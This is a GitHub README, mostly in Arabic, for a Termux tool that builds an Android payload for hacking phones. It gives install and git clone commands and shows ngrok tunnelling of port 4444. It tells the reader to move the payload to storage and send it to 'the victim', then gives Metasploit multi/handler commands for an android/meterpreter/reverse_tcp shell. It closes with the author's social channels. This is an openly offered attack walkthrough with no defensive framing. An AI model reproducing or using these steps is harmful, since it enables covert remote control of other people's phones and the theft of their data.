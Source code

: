 # Payloadalsharabi
Create a payload and hack the phone


# تثبيت الاداة 

pkg update -y

pkg upgrade -y

pkg install git -y


 pkg install python -y

pkg install python2 -y

pkg install bash -y


git clone https://github.com/sadamshr3be/Payloadalsharabi

cd Payloadalsharabi

chmod +x *

bash Payloadalsharabi.sh

#التقاط الصورة

<img src="https://raw.githubusercontent.com/sadamshr3be/Payloadalsharabi/main/Capture%2B_2021-08-12-13-44-44.png" width="257px" height="200px"/>


شغل الاداة وكتب رقم. 1 وبعد ذالك اكتب 2رقم ip الخاص في جًهآآزِگ

3 اكتب البور 4444 
# 4 اكتب اسم Payload
وبعد ذالك افتح نافذة جديد  وشغل اداة نيجروك وفتح البور في 

./ngrok tcp 4444
وبعد ذالك ارجع الي الاداة
وضغط انتر ونتظر حتى يتم إنشاء Payload

وبعد الانشاء راح ينقل Payload الي الصفحة الرئيسية تبع termux

أإأذأإأ ارت ان تنقل Payload الي الذاكرة الخارجية وارساله الي الضحيه

اكتب 
mv هنا الاسم الباليود /sdcard

وبعد ذالك 
فتح نافذة جديد وتشغل الميتاسبلويت

وتكتب ماتفتتح اكتبوا الاوامر هاذي↓↓

→ use exploit/multi/handler 

→ set payload android/meterpreter/reverse_tcp

→ set lhost  رح تحط هنا الايبي

# قناتي علـّۓ. اليوتيوب 

https://youtube.com/channel/UCGmfv3D0tcKvHp8Tolf6Yqw

# قناتي على التلجرام 

https://t.me/termuxalsharabi
# المدونه. 

https://termuxalsharabi.blogspot.com

# بقلم صدام الشرعبي





